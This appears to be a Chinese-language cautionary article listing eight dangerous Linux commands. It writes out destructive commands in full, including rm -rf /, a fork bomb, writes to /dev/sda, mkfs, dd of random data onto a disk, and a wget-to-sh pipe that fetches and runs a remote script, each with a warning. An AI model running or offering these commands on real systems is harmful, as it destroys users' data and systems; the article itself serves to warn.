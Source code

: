 ## title: Linux上最危险的8个命令

Linux命令是很强大、高效的。但是有时侯执行一些命令要非常小心，尤其是，当你不知道自己在干什么的情况下。

这篇文件总结了8个可能让人悲剧的10个命令。这些命令在执行之前，一定要再三确认，一不小心就会让你追悔莫及。

### 1) rm -rf

`rm -rf`是删除目录最快的方法，如果使用桌面环境（右键->删除）删除一个零碎目录需要很长时间。但是一个小小的打字错误，有可能对你的系统造成不可恢复的破坏。例如下面这条命令：

```shell
# rm -rf /
```
上面这条命令需要系统管理员权限，这也是不建议使用root用户登录系统的原因之一。

rm常用选项：

* **rm**：删除文件
* **rm -r**：递归的删除目录，包括空目录
* **rm -f**：直接删除文件，不询问
* **rm -rf /**：直接根(root)目录，不询问
* **rm -rf \***：删除当前目录的所有东西，不询问
* **rm -rf**：删除当前目录和子目录，不询问

在执行`rm -rf`一定要小心。为了防止`rm`命令意外删除文件或目录，可以为`rm`创建一个别名`rm -i`，每次都需要确认删除。

### 2) :(){:|:&};:

上面这个命令就是所谓的fork炸弹。执行上面代码会耗尽系统资源而崩溃。更多关于fork炸弹的信息看这里：[Linux：怎么防止fork炸弹攻击](http://blog.topspeedsnail.com/archives/2757)。

### 3) cmd > /dev/sda

cmd代表一个命令，`cmd > /dev/sda`把cmd命令的输出写到了`/dev/sda`块设备上，会导致`/dev/sda`块设备数据的全部丢失。

### 4) mv 目录 /dev/null

上面命令会把目录移动到`/dev/null`。在Linux中， /dev/null是一个特殊的设备文件，有人把它叫做黑洞。

```shell
# mv /home/* /dev/null
```
上面命令相当于：
```shell
# rm -rf /home/*
```
### 5) wget http://怀有恶意脚本的url -O- | sh

上面这条命令在安装软件或系统环境时总用到，它从url下载脚本，下载完成之后自动执行脚本。不要对不信任的url执行上面这个命令。

### 6) mkfs.ext3 /dev/sda

上面命令是格式化命令，执行完之后硬盘数据全部清空。

### 7) > file

`> file`命令会把文件中的数据全部清空。

### 8) dd if=/dev/random of=/dev/sda

上面命令向sda设备中写入随机数据，这是不可恢复的。

如果一个命令你不知道是干嘛的，不要盲目执行，可以先使用man查询一下。如果你有因为执行错误命令而导致系统崩溃的经历，欢迎留言。